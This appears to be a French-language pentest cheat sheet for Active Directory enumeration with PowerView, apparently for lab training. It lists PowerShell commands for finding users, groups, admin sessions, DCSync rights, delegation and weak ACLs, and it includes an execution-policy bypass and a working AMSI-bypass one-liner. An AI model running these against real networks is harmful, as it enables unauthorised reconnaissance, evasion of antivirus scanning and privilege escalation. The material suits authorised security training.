

L'énumération de l'Active Directory via **PowerView** permet d'identifier des vecteurs d'attaque, des privilèges mal configurés et des chemins de mouvement latéral.

> [!warning]
> Nécessite des privilèges de domaine (même basiques) pour la plupart des requêtes.
> L'utilisation intensive d'**Invoke-UserHunter** peut générer un volume important de logs (Event ID 4624/4648).
> Attention à l'**AMSI** lors de l'exécution de scripts PowerShell en mémoire.
> Distinction nécessaire entre les commandes **PowerView** natives et les alias.

## Configuration de l'environnement

### Installation et chargement
```powershell
# Chargement du script en mémoire
Import-Module .\PowerView.ps1

# Contournement de la politique d'exécution pour la session courante
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

### Techniques d'évasion (AMSI bypass)
```powershell
# Contournement basique de l'AMSI pour permettre l'exécution des fonctions PowerView
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### Gestion de l'authentification
```powershell
# Utilisation de credentials spécifiques pour les requêtes
$cred = Get-Credential
Get-NetDomain -Credential $cred
```

## Enumération du Domaine

### Informations générales
```powershell
Get-NetDomain
Get-NetForest
Get-NetForestDomain
Get-NetDomainTrust
```

### Contrôleurs de domaine
```powershell
Get-NetDomainController
Get-NetForestDomain | Get-NetDomainController
```

## Enumération des Utilisateurs

### Requêtes de base
```powershell
Get-NetUser
Get-NetUser -UserName <username>
Get-DomainUser -AdminCount 1
Get-DomainUser -PreauthNotRequired
```

### Vérification des droits DCSYNC
```powershell
$sid = Convert-NameToSid <username>
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

## Enumération des Groupes

### Requêtes de base
```powershell
Get-NetGroup
Get-NetGroup -Domain <domain>
```

### Membres des groupes
```powershell
Get-NetGroupMember -GroupName "Domain Admins"
Get-NetGroupMember -GroupName "Enterprise Admins"
Get-NetUser -UserName <username> | Select-Object memberof
```

## Enumération des Machines

### Requêtes de base
```powershell
Get-NetComputer
Get-NetComputer -OperatingSystem "Windows 10*"
Get-NetComputer -Ping
```

## Enumération des Partages et Sessions

### Partages et connexions
```powershell
Invoke-ShareFinder -Verbose
Get-NetSession -ComputerName <hostname>
Get-NetConnection -ComputerName <hostname>
```

## Enumération des ACL et chemins d'attaque

### Analyse des permissions
```powershell
Get-ObjectAcl -DistinguishedName "CN=Administrateurs,CN=Builtin,DC=monDomaine,DC=local"
Find-Delegation
Find-LocalAdminAccess
Invoke-UserHunter
```

### Délégations et droits d'écriture
```powershell
Get-NetUser | Where-Object {$_.TrustedForDelegation -eq $True}
Get-ObjectAcl -SamAccountName <username> | Where-Object {($_.ActiveDirectoryRights -match "GenericWrite") -or ($_.ActiveDirectoryRights -match "WriteOwner")}
Get-ObjectAcl -SamAccountName "Domain Admins"
```

## Commandes complémentaires

### Sécurité et politiques
```powershell
Test-ComputerSecureChannel -Server <DC>
Get-DomainPolicy | Select-Object -ExpandProperty SystemAccess
Find-InterestingDomainAcl | Where-Object {$_.IdentityReference -match "S-1-5-21"}
```

### Exportation des résultats
```powershell
# Exportation au format CSV pour analyse ultérieure
Get-NetUser | Export-Csv -Path users.csv -NoTypeInformation

# Exportation au format JSON pour intégration dans d'autres outils
Get-NetGroup | ConvertTo-Json | Out-File groups.json
```

## Récapitulatif des commandes

| Commande | Description |
| :--- | :--- |
| `Get-NetDomain` | Infos sur le domaine actuel |
| `Get-NetUser` | Liste les utilisateurs |
| `Get-NetGroup` | Liste les groupes |
| `Get-NetGroupMember` | Liste les membres d'un groupe |
| `Get-NetComputer` | Liste les machines AD |
| `Invoke-UserHunter` | Trouve les utilisateurs connectés |
| `Find-LocalAdminAccess` | Cherche des privilèges administrateurs |
| `Invoke-ShareFinder` | Trouve des partages réseau accessibles |
| `Get-ObjectAcl` | Analyse des permissions AD |
| `Find-Delegation` | Recherche de délégations **Kerberos** |

> [!note]
> Les techniques d'énumération présentées ici sont complémentaires aux outils d'analyse de graphes comme **BloodHound** et aux attaques de type **Kerberoasting** ou **AS-REP Roasting**. Le mouvement latéral peut être facilité par l'identification de sessions via **Invoke-UserHunter** ou l'exploitation de la **Kerberos Delegation**.